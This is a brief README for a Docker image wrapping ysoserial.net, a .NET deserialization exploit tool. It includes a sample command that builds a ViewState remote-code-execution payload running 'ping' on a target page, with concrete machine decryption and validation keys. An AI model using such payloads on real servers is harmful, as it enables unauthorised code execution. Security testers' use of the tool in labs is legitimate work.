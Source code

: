 ## Dockeriamge for ysoserial.net

### Usage

- Build the image
```bash
docker build -t ysoserial.net .
```

- Run the image
```bash
docker run -dit --name ysoserial ysoserial-image
```

- You can also use the ysoserial_runner.sh script to interact with ysoserial.net
```bash
alias ysoserial='/opt/scripts/ysoserial_runner.sh '

ysoserial run '-p ViewState  -g TextFormattingRunProperties -c "ping 10.10.14.95" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"'
```

#### Example

![alt text](image.png)

#### Note:
- The image is about 5GB so it will take some time to build and make sure you have enough space on your machine.
 
![alt text](image-1.png)